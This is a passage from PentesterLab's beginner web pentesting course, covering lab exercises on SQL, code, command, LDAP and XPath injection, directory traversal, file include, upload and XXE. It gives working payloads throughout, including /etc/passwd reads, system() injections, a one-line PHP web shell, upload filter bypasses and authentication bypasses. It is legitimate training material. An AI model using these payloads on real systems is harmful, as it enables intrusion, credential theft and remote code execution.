?name=root' and '1'='0: the quote in the initial query will close the one at the end of our injection. The page should not return any result (empty table), since the selection criteria always returns false.?name=root' and '1'='1 #(don't forget to encode#): the quote in the initial query will be commented out. We should have the same result as the query above.?name=root' or '1'='1: the quote in the initial query will close the one at the end of our injection.orwill select all results, with the second part being always true. It may give the same result, but it's unlikely, since the value is used as a filter for this example (as opposed to a page only showing one result at a time).?name=root' or '1'='1' #(don't forget to encode#): the quote in the initial query will be commented out. We should have the same result as the query above.
With all these tests, we can be sure that we have a SQL injection. This training only focuses on detection. You can look into other PentesterLab training, and learn how to exploit this type of issues.
Example 2
In this example, the error message gives away the protection created by the developer: ERROR NO SPACE. This error message appears as soon as a space is injected inside the request. It prevents us from using the ' and '1'='1 method, or any fingerprinting that uses the space character. However, this filtering is easily bypassed, using tabulation (HT or \t). You will need to use encoding, to use it inside the HTTP request. Using this simple bypass, you should be able to see how to detect this vulnerability.
Example 3
In this example, the developer blocks spaces and tabulations. There is a way to bypass this filter. You can use comments between the keywords to build a valid request without any space or tabulation. The following SQL comments can be used: /**/. By replacing all space/tabulation in the previous examples using this comment, you should be able to test for this vulnerability.
Example 4
This example represents a typical mis-understanding of how to protect against SQL injection. In the 3 previous examples, using the function mysql_real_escape_string would have prevented the vulnerability. In this example, the developer used the same logic. However, the value used is an integer and is not echoed between single quote '. Since the value is directly put in the query, using mysql_real_escape_string does not prevent anything. Here, you only need to be able to add spaces and SQL keywords to break the syntax. The detection method is really similar to the one used for string-based SQL injection. You just don't need the quote at the beginning of the payload.
Another method to detect this is to play with the integer. The initial request is ?id=2. By playing with the value 2, we can detect the SQL injection:
?id=2 #(#needs to be encoded) should return the same thing.?id=3-1should return the same thing. The database will automatically perform the subtraction and you will get the same result.?id=2-0should return the same thing.?id=1+1(+needs to be encoded) should return the same thing. The database will automatically perform the addition and you will get the same result.?id=2.0should return the same thing.
And the following should not return the same results:
?id=2+1.?id=3-0.
Example 5
This example is really similar to the previous, detection-wise. If you look into the code, you will see that the developer tried to prevent SQL injection by using a regular expression:
if (!preg_match('/^[0-9]+/', $_GET["id"])) {
die("ERROR INTEGER REQUIRED");
}
However, the regular expression used is incorrect; it only ensures that the parameter id starts with a digit. The detection method used previously can be used to detect this vulnerability.
Example 6
This example is the other way around. The developer made a mistake in the regular expression again:
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
die("ERROR INTEGER REQUIRED");
}
This regular expression only ensures that the parameter id ends with a digit (thanks to the $ sign). It does not ensure that the beginning of the parameter is valid (missing ^). You can use the methods learnt previously. You just need to add an integer at the end of your payload. This digit can be part of the payload or placed after a SQL comment: 1 or 1=1 # 123.
Example 7
Another and last example of bad regular expression:
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
die("ERROR INTEGER REQUIRED");
}
Here we can see that the beginning (^) and end ($) of the string are correctly checked. However, the regular expression contains the modifier PCRE_MULTILINE (/m). The multiline modifier will only validate that one of the lines is only containing an integer, and the following values will therefore be valid (thanks to the new line in them):
123\nPAYLOAD;PAYLOAD\n123;PAYLOAD\n123\nPAYLOAD.
These values need to be encoded when used in a URL, but with the use of encoding and the techniques seen previously you should be able to detect this vulnerability.
Example 8
In this example, the parameter name gives away where it will get echoed in the SQL query. If you look into MySQL documentation, there are two ways to provide a value inside an ORDER BY statement:
- directly:
ORDER BY name; - between back-ticks:
ORDER BY `name`.
The ORDER BY statement cannot be used with value inside single quote ' or double quote ". If this is used, nothing will get sorted, since MySQL considers these as constants.
To detect this type of vulnerability, we can try to get the same result using different payloads:
name` #(#needs to be encoded) should give the same results.name` ASC #(#needs to be encoded) should give the same results.name`, `name: the back-tick in the initial query will close the one at the end of our injection.
And the following payloads should give different results:
name` DESC #(#needs to be encoded).name`should not give any result, since the syntax is incorrect.
Example 9
This example is similar to the previous one, but instead of back-tick ```
There are other methods that can be used in this case, since we are directly injecting in the request without a back-tick before. We can use the MySQL IF statement to generate more payloads:
IF(1, name,age)should give the same results.IF(0, name,age)should give different results. You can see that the columns are sorted by age, but the sort function compares the values as strings, not as integers (10is smaller than2). This is a side effect ofIFthat will sort values as strings if one of the column contains a string.
Directory traversal
Directory traversals come from a lack of filtering/encoding of information used as part of a path by an application.
As with other vulnerabilities, you can use the "same value technique" to test for this type of issue. For example, if the path used by the application inside a parameter is /images/photo.jpg. You can try to access:
/images/./photo.jpg: you should see the same file./images/../photo.jpg: you should get an error./images/../images/photo.jpg: you should see the same file again./images/../IMAGES/photo.jpg: you should get an error (depending on the file system) or something weird is going on.
If you don't have the value images and the legitimate path looks like photo.jpg, you will need to work out what the parent repository is.
Once you have tested that, you can try to retrieve other files. On Linux/Unix the most common test case is the /etc/passwd. You can test: images/../../../../../../../../../../../etc/passwd, if you get the passwd file, the application is vulnerable. The good news is that you don't need to know the number of ../. If you put too many, it will still work.
Another interesting thing to know is that if you have a directory traversal in Windows, you will be able to access test/../../../file.txt, even if the directory test does not exist. This is not the case, on Linux. This can be really useful where the code concatenates user-controlled data, to create a file name. For example, the following PHP code is supposed to add the parameter id to get a file name (example_1.txt for example). On Linux, you won't be able to exploit this vulnerability if there is no directory starting by example_, whereas on Windows, you will be able to exploit it, even if there is no such directory.
$file = "/var/files/example_".$_GET['id'].".txt";
In these exercises, the vulnerabilities are illustrated by a script used inside an <img tag. You will need to read the HTML source (or use "Copy image URL") to find the correct link, and start exploiting the issue.
Example 1
The first example is a really simple directory traversal. You just need to go up in the file system, and then back down, to get any files you want. In this instance, you will be restricted by the file system permissions, and won't be able to access /etc/shadow, for example.
In this example, based on the header sent by the server, your browser will display the content of the response. Sometimes the server will send the response with a header Content-Disposition: attachment, and your browser will not display the file directly. You can open the file to see the content. This method will take you some time for every test.
Using a Linux/Unix system, you can do this more quickly, by using wget:
% wget -O - 'http://vulnerable/dirtrav/example1.php?file=../../../../../../../etc/passwd' [...] daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh [...]
Example 2
In this example, you can see that the full path is used to access the file. However, if you try to just replace it with /etc/passwd, you won't get anything. It looks like a simple check is performed by the PHP code. You can however bypass it by keeping the beginning of the path and add your payload at the end, to go up and back down within the file system.
Example 3
This example is based on a common problem when you exploit directory traversal: the server-side code adds its own suffix to your payload. This can be easily bypassed, by using a NULL BYTE (which you need to URL-encode as %00). Using NULL BYTE to get rid of any suffix added by the server-side code is a common bypass, and works really well in Perl and older versions of PHP.
File include
In a lot of applications, developers need to include files to load classes or to share some templates between multiple web pages.
File include vulnerabilities come from a lack of filtering when a user-controlled parameter is used as part of a file name in a call to an including function (require, require_once, include or include_once in PHP for example). If the call to one of these methods is vulnerable, an attacker will be able to manipulate the function to load his own code. File include vulnerabilities can also be used as a directory traversal to read arbitrary files. However, if the arbitrary code contains an opening PHP tag, the file will be interpreted as PHP code.
This including function can allow the loading of local resources or remote resource (a website, for example). If vulnerable, it will lead to:
- Local File Include: LFI. A local file is read and interpreted.
- Remote File Include: RFI. A remote file is retrieved and interpreted.
By default, PHP disables loading of remote files, thanks to the configuration option: allow_url_include. In the ISO, it has been enabled to allow you to test it.
Example 1
In this first example, you can see an error message, as soon as you inject a special character (a quote, for example) into the parameter:
Warning: include(intro.php'): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'intro.php'' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
If you read the error message carefully, you can extract a lot of information:
- The path of the script:
/var/www/fileincl/example1.php. - The function used:
include(). - The value used in the call to
includeis the value we injectedintro.php'without any addition or filtering.
We can use the methods used to detect directory traversal, to detect file include. For example, you can try to include /etc/passwd by using the ../ technique.
We can test for Remote File Include, by requesting an external resource: https://pentesterlab.com/. We will see that the page from PentesterLab gets included inside the current page.
PentesterLab's website also contains a test for this type of vulnerability. If you use the URL http://assets.pentesterlab.com/test_include.txt. You should get the result of the function phpinfo() within the current page:
Example 2
In a similar manner to directory traversal, this example adds its own suffix to the value provided. As before, you can get rid of the suffix (for LFI) using a NULL BYTE. For RFI, you can get rid of the suffix, by adding &blah= or ?blah= depending on your URL.
In this exercise, the code simulates the behaviour of older versions of PHP. PHP now correctly handles paths and they cannot be poisoned using a NULL BYTE, as they used to.
Code injection
In this section, we are going to work on code execution. Code executions come from a lack of filtering and/or escaping of user-controlled data. When you are exploiting a code injection, you will need to inject code within the information you are sending to the application. For example, if you want to run the command ls, you will need to send system("ls") to the application since it is a PHP application.
Just like other examples of web application issues, it's always handy to know how to comment out the rest of the code (i.e.: the suffix that the application will add to the user-controlled data). In PHP, you can use // to get rid of the code added by the application.
As with SQL injection, you can use the same value technique to test and ensure you have a code injection:
- By using comments and injecting
/* random value */. - By injecting a simple concatenation
"."(where"are used to break the syntax and reform it correctly). - By replacing the parameter you provided by a string concatenation, for example
"."ha"."cker"."instead ofhacker.
You can also use time-based detection for this issue by using the PHP function sleep. You will see a time difference between:
- Not using the function
sleepor calling it with a delay of zero:sleep(0). - A call to the function with a long delay:
sleep(10).
Example 1
This first example is a trivial code injection. If you inject a single quote, nothing happens. However, you can get a better idea of the problem by injecting a double quote:
Parse error: syntax error, unexpected '!', expecting ',' or ';' in /var/www/codeexec/example1.php(6) : eval()'d code on line 1
Based on the error message, we can see that the code is using the function eval: "Eval is evil...".
We saw that the double quote breaks the syntax, and that the function eval seems to be using our input. From this, we can try to work out payloads that will give us the same results:
".": we are just adding a string concatenation; this should give us the same value."./*pentesterlab*/": we are just adding a string concatenation and information inside comments; this should give us the same value.
Now that we have similar values working, we need to inject code. To show that we can execute code, we can try to run a command (for example uname -a using the code execution). The full PHP code looks like:
system('uname -a');
The challenge here is to break out of the code syntax and keep a clean syntax. There are many ways to do it:
- By adding dummy code:
".system('uname -a'); $dummy=". - By using comment:
".system('uname -a');#or".system('uname -a');//.
Don't forget that you will need to URL-encode some of the characters (# and ;) before sending the request.
Example 2
When ordering information, developers use two methods:
order byin a SQL request;usortin PHP code.
The function usort is often used with the function create_function to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.
By injecting a single quote, we can get an idea of what is going on:
Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /var/www/codeexec/example2.php(22) : runtime-created function on line 1 Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/codeexec/example2.php on line 22
The source code of the function looks like the following:
ZEND_FUNCTION(create_function)
{
[...]
eval_code = (char *) emalloc(eval_code_length);
sprintf(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(%s){%s}", Z_STRVAL_PP(z_function_args), Z_STRVAL_PP(z_function_code));
eval_name = zend_make_compiled_string_description("runtime-created function" TSRMLS_CC);
retval = zend_eval_string(eval_code, NULL, eval_name TSRMLS_CC);
[...]
We can see that the code that will be evaluated is put inside curly brackets {...}, and we will need this information to correctly finish the syntax, after our injection.
As opposed to the previous code injection, here, you are not injecting inside single or double quotes. We know that we need to close the statement with } and comment out the rest of the code using // or # (with encoding). We can try poking around with:
?order=id;}//: we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.?order=id);}//: we get a warning. That seems about right.?order=id));}//: we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.
Since we now know how to finish the code correctly (a warning does not stop the execution flow), we can inject arbitrary code and gain code execution using ?order=id);}system('uname%20-a');// for example.
Example 3
We talked earlier about regular expression modifiers with multi-line regular expression. Another very dangerous modifier exists in PHP: PCRE_REPLACE_EVAL (/e). This modifier will cause the function preg_replace to evaluate the new value as PHP code, before performing the substitution.
Here, you will need to change the pattern, by adding the /e modifier. Once you have added this modifier, you should get a notice:
Notice: Use of undefined constant hacker - assumed 'hacker' in /var/www/codeexec/example3.php(3) : regexp code on line 1
The function preg_replace tries to evaluate the value hacker as a constant but it's not defined, and you get this message.
You can easily replace hacker with a call to the function phpinfo() to get a visible result. Once you can see the result of the phpinfo function, you can use the function system to run any command.
Example 4
This example is based on the function assert. When used incorrectly, this function will evaluate the value received. This behaviour can be used to gain code execution.
By injecting a single quote or double quote (depending on the way the string was declared), we can see an error message indicating that PHP tried to evaluate the code:
Parse error: syntax error, unexpected T_ENCAPSED_AND_WHITESPACE in /var/www/codeexec/example4.php(4) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: 'hacker'' in /var/www/codeexec/example4.php on line 4
Once we broke the syntax, we need to try to reconstruct it correctly. We can try the following: hacker'.'. The error message disappeared.
Now that we know how to finish the syntax to avoid errors, we can just inject our payload to run the function phpinfo(): hacker'.phpinfo().' and we get the configuration of the PHP engine in the page.
Command injection
Command injection comes from a lack of filtering and encoding of information used as part of a command. The simplest example comes from using the function system (to run commands) and take an HTTP parameter as an argument of this command.
There are many ways to exploit a command injection:
- By injecting the command inside backticks, for example
`id` - By redirecting the result of the first command into the second
| id - By running another command if the first one succeeds:
&& id(where&needs to be encoded) - By running another command if the first one fails (and making sure it does:
error || id(whereerroris just here to cause an error).
It's also possible to use the same value technique to perform this type of detection. For example, you can replace 123 with `echo 123`. The command inside backticks will be executed first, and return exactly the same value to be used by the command.
You can also use time-based vectors to detect these kinds of vulnerabilities. You can use a command that will take time to process on the server (with a risk of denial of service). You can also use the command sleep to tell the server to wait a certain amount of time before continuing. For example, using sleep 10.
Example 1
The first example is a trivial command injection. The developer didn't perform any input validation, and you can directly inject your commands after the ip parameter.
Based on the techniques seen above, you can for example, use the payload && cat /etc/passwd (with encoding) to see the content of /etc/passwd.
Example 2
This example validates the parameter provided, but does so incorrectly. As we saw before with the SQL injection, the regular expression used is multi-line. Using the same technique we saw for the SQL injection, you can easily gain code execution.
The good thing here is that you don't even need to inject a separator. You can just add the encoded new line (%0a) and then put your command.
Example 3
This example is really similar to the previous one; the only difference is that the developer does not stop the script correctly. In PHP, an easy and simple way to redirect users if one of the values provided doesn't match some security constraint is to call the function header. However, even if the browser will get redirected, this function does not stop the execution flow, and the script will still finish to run with the dangerous parameter. The developer needs to call the function die after the call to the function header, to avoid this issue.
You cannot easily exploit this vulnerability in your browser, since your browser will follow the redirect, and will not display the redirecting page. To exploit this issue you can use telnet:
% telnet vulnerable 80 GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0
or using netcat:
% echo "GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0\r\n" | nc vulnerable 80
If you look carefully at the response, you will see that you get a 302 redirect, but you can see the result of the command uname -a in the body of the response.
LDAP attacks
In this section, we will cover LDAP attacks. LDAP is often used as a backend for authentication, especially in Single-Sign-On (SSO) solutions. LDAP has its own syntax that we will see in more detail, in the following examples.
Example 1
In this first example, you connect to a LDAP server, using your username and password. In this instance, The LDAP server does not authenticate you, since your credentials are invalid.
However, some LDAP servers authorise NULL Bind: if null values are sent, the LDAP server will proceed to bind the connection, and the PHP code will think that the credentials are correct. To get the bind with 2 null values, you will need to completely remove this parameter from the query. If you keep something like username=&password= in the URL, these values will not work, since they won't be null; instead, they will be empty.
Example 2
The most common pattern of LDAP injection is to be able to inject in a filter. Here, we will see how you can use LDAP injection to bypass an authentication check.
First, you need to learn a bit of LDAP syntax. When you are retrieving a user, based on its username, the following will be used:
(cn=[INPUT])
If you want to add more conditions and some boolean logic, you can use:
- A boolean OR using
|:(|(cn=[INPUT1])(cn=[INPUT2]))to get records matching[INPUT1]or[INPUT2]. - A boolean AND using
&:(&(cn=[INPUT1])(userPassword=[INPUT2]))to get records for which thecnmatches[INPUT1]and the password matches[INPUT2].
As you can see, the boolean logic is located at the beginning of the filter. Since you're likely to inject after it, it's not always possible (depending on the LDAP server) to inject logic inside the filter, if it's just (cn=[INPUT]).
LDAP uses the wildcard * character very often, to match any values. This can be used for match everything * or just substrings (for example, adm* for all words starting with adm).
As with other injections, we will need to remove anything added by the server-side code. We can get rid of the end of the filter, using a NULL BYTE (encoded as %00).
Here, we have a login script. We can see that if we use:
username=hacker&password=hackerwe get authenticated (this is the normal request).username=hack*&password=hackerwe get authenticated (the wildcard matches the same value).username=hacker&password=hac*we don't get authenticated (the password may likely be hashed).
Now, we will see how we can use the LDAP injection, in the username parameter to bypass the authentication. Based on our previous tests, we can deduce that the filter probably looks like:
(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))
Where HASH is an unsalted hash (probably MD5 or SHA1).
Since [INPUT2] is hashed, we cannot use it to inject our payload.
Our goal here will be to inject inside [INPUT1] (the username parameter). We will need to inject:
- The end of the current filter using
hacker). - An always-true condition (
(cn=*)for example) - A
)to keep a valid syntax and close the first). - A NULL BYTE (
%00) to get rid of the end of the filter.
Once you put this together, you should be able to login as hacker with any password. You can then try to find other users using the wildcard trick. For example, you can use a* in the first part of the filter, and check who you are logged in as.
In most cases, LDAP injection will allow only you to bypass authentication and authorisation checks. Retrieving arbitrary data (as opposed to just getting more results) is often really challenging or impossible.
Upload
In this section, we will cover how to use file upload functionalities to gain code execution.
In web applications (especially the ones using the file systems to determine what code should be run), you can get code execution on a server, if you manage to upload a file with the right filename (often depending on the extension). In this section, we will see the basics of these types of attacks.
First, since we are working on a PHP application, we will need a PHP web shell. A web shell is just a simple script or web application that runs the code or commands provided. For example, in PHP, the following code is a really simple web shell:
<?php system($_GET["cmd"]); ?>
More complex web shells can perform advanced operations, such as providing database and file system access, or even TCP tunnelling.
Example 1
The first example is a really basic upload form, with no restriction. By using the web shell above, and naming it with a .php extension you should be able to get it upload onto the server. Once it's uploaded, you can access the script (with the parameter cmd=uname for example) to get command execution.
Example 2
In this second example, the developer put a restriction on the file name. The file name cannot end with .php. To bypass this restriction, you can use one of the following methods:
- change the extension to
.php3. On other systems, extensions like.php4or.php5may also work. It depends on the configuration of the web server. - use an extension that Apache does not know
.blahafter the extension.php. Since Apache does not know how to handle the extension.blah, it will move to the next one:.phpand run the PHP code. - upload a .htaccess file, enabling another extension to be run by PHP (You can learn more about this technique in PentesterLab's training: (From SQL Injection to Shell: PostgreSQL edition)[https://pentesterlab.com/fromsqlitoshellpg_edition.html]
Using one of these methods, you should be able to gain command execution.
XML related attacks
In this section, XML related attacks will be detailed. These types of attacks are common with web services and with applications using XPath to retrieve a configuration setting from a XML file (for example, to know what backend they need to use to authenticate a user, based on the organisation's name provided).
Example 1
Some XML parsers will resolve external entities, and will allow a user controlling the XML message to access resources; for example to read a file on the system. The following entity can be declared, for example:
<!ENTITY x SYSTEM "file:///etc/passwd">
You will need to envelope this properly, in order to get it to work correctly:
<!DOCTYPE test [
<!ENTITY x SYSTEM "file:///etc/passwd">]>
You can then simply use the reference to x: &x; (don't forget to encode &) to get the corresponding result inserted in the XML document during its parsing (server side).
In this example, the exploitation occurs directly inside a GET request, but it's more likely that these types of requests are performed using a POST request, in a traditional web application. This issue is also really common with web services, and is probably the first test you want to do, when attacking an application that accepts XML messages.
This example can also be used to get the application to perform HTTP requests (by using http:// instead of file://) and can be used as a port scanner. However, the content retrieved is often incomplete since the XML parser will try to parse it as part of the document.
Example 2
In this example, the code uses the user's input, inside an XPath expression. XPath is a query language, which selects nodes from an XML document. Imagine the XML document as a database, and XPath as an SQL query. If you can manipulate the query, you will be able to retrieve elements to which you normally should not have access.
If we inject a single quote, we can see the following error:
Warning: SimpleXMLElement::XPath(): Invalid predicate in /var/www/xml/example2.php on line 7 Warning: SimpleXMLElement::XPath(): xmlXPathEval: evaluation failed in /var/www/xml/example2.php on line 7 Warning: Variable passed to each() is not an array or object in /var/www/xml/example2.php on line 8
Just like SQL injection, XPath allows you to do boolean logic, and you can try:
' and '1'='1and you should get the same result.' or '1'='0and you should get the same result.' and '1'='0and you should not get any result.' or '1'='1and you should get all results.
Based on these tests and previous knowledge of XPath, it's possible to get an idea of what the XPath expression looks like:
[PARENT NODES]/name[.='[INPUT]']/[CHILD NODES]
To comment out the rest of the XPath expression, you can use a NULL BYTE (which you will need to encode as %00). As we can see in the XPath expression above, we also need to add a ] to properly complete the syntax. Our payload now looks like hacker']%00 (or hacker' or 1=1]%00 if we want all results).
If we try to find the child of the current node, using the payload '%20or%201=1]/child::node()%00, we don't get much information.
Here, the problem is that we need to get back up in the node hierarchy, to get more information. In XPath, this can be done using parent::* as part of the payload. We can now select the parent of the current node, and display all the child node using hacker'%20or%201=1]/parent::*/child::node()%00.
One of the node's value looks like a password. We can confirm this, by checking if the node's name is password using the payload hacker']/parent::*/password%00.
Conclusion
This exercise is an attempt to provide a really good beginner course, for people who want to start doing web application penetration testing. If you are interested in this subject, you should check out our other exercises, available at the following address: https://www.pentesterlab.com/. Other exercises are more scenario-based, and more demonstrative of typical web engagements. I hope you have enjoyed learning with PentesterLab.
© PentesterLab. ALL Rights Reserved. | Terms and conditions